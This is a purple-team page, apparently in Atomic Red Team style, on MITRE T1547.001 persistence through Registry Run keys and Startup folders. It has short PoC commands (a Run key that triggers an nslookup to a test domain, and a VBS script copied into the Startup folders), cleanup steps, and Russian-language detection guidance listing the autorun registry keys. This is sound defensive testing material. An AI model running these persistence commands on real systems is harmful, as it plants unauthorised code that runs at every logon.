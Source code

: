 ### Registry Run Keys/Startup Folder [\[T1547.001\]](https://attack.mitre.org/techniques/T1547/001/)

#### PoC

##### Run with `command_prompt`

```cmd
REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "Command Prompt" /t REG_SZ /F /D "nslookup command.prompt.t1547.purpleteam.ru"
```

##### Cleanup Commands:
```cmd
REG DELETE "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "Command Prompt" /f >nul 2>&1
```

##### Run with `powershell` Admin required

```powershell
Copy-Item $PathToFolder\T1547.001\t1547.001.vbs "$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\t1547.001.vbs"
Copy-Item $PathToFolder\T1547.001\t1547.001.vbs "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\t1547.001.vbs"
cscript.exe "$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\t1547.001.vbs"
cscript.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\t1547.001.vbs"
```

##### Cleanup Commands:

```powershell
Remove-Item "$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\t1547.001.vbs" -ErrorAction Ignore
Remove-Item "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\t1547.001.vbs" -ErrorAction Ignore
```

#### Detect

* Мониторить папки на создание новых файлов `C:\Users[Username]\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup` и `C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp`

* Мониторить реестр на создание или модификацию ключей в ветках реестра:
```
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnceEx
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\User Shell Folders
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\Shell Folders
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\Shell Folders
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\User Shell Folders
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServices
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServices
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run
HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Session Manager
```
